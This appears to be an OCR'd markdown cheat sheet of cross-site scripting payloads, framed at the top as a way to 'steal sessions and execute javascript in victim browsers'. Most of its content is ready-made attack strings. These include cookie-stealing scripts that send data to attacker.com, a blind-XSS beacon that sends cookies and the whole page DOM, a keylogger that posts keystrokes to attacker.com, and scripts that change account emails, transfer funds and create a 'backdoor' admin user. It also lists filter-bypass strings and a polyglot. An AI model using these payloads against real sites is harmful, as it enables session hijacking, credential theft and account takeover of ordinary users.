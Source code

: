 # steal sessions and execute javascript in victim browsers.

## quick test payloads

basic proof of concept:
```html
<script>alert(document.domain)</script>
<script>alert('xss')</script>
<img src=x onerror=alert('xss')>
<svg onload=alert('xss')>
```

## reflected xss

user input directly echoed in response without sanitization.

**test locations:**
- url parameters: `?search=<script>alert(1)</script>`
- form inputs reflected in error messages
- http headers (user-agent, referer) if displayed

**example attack:**
```html
http://target.com/search?q=<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
```

## stored xss  

payload persisted in database, executes for all users viewing content.

**test locations:**
- comment sections
- user profiles  
- file upload descriptions
- any persistent user content

**session stealing payload:**
```html
<script>
fetch('https://attacker.com/steal?cookie=' + btoa(document.cookie));
</script>
```

## dom-based xss

javascript execution via client-side dom manipulation.

**vulnerable patterns:**
```javascript
// dangerous dom sinks
document.innerHTML = userInput;
document.write(location.hash);
eval(userInput);
```

**test payload:**
```html
#<script>alert('dom-xss')</script>
<iframe src="javascript:alert('xss')">
```

## blind xss

stored xss where you can't see if payload executed.

**callback payload:**
```html
<script>
var i = new Image();
i.src = 'http://attacker.com/log?url=' + encodeURIComponent(window.location.href) + 
        '&cookie=' + encodeURIComponent(document.cookie) + 
        '&dom=' + encodeURIComponent(document.documentElement.outerHTML);
</script>
```

**keylogger payload:**
```html
<script>
document.onkeypress = function(e) {
    fetch('https://attacker.com/log?key=' + btoa(e.key));
}
</script>
```

## business logic exploitation

target specific application functions:
```html
<script>
// change email for password reset
user.changeEmail('attacker@evil.com');

// transfer funds  
bank.transfer('attacker_account', 10000);

// admin actions
admin.createUser('backdoor', 'password123');
</script>
```

## filter bypass techniques

**escape context:**
```html
"><script>alert('xss')</script>
';alert('xss');//
```

**case variation:**
```html
<Script>alert('xss')</Script>
<SCRIPT>alert('xss')</SCRIPT>
```

**filter evasion:**
```html
<s<script>cript>alert('xss')</script>
<scr<script>ipt>alert('xss')</script>
```

**event handlers:**
```html
<img src=x onerror="alert('xss')">
<body onload="alert('xss')">
<input onfocus="alert('xss')" autofocus>
```

**javascript protocol:**
```html
<a href="javascript:alert('xss')">click</a>
<iframe src="javascript:alert('xss')">
```

## polyglot payload

universal xss string that bypasses multiple contexts:
```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('xss') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('xss')//>\x3e
```

## operational notes

- test every input field, parameter, and header
- [!] stored xss affects all users - test in isolated environment
- check both client-side and server-side input validation
- look for dangerous javascript functions in source code
- use browser dev tools to identify dom manipulation points

**tools:**
- xss hunter express for blind testing
- burp suite intruder for systematic testing
- dalfox for automated xss scanning

# TODO: add waf bypass techniques for common filters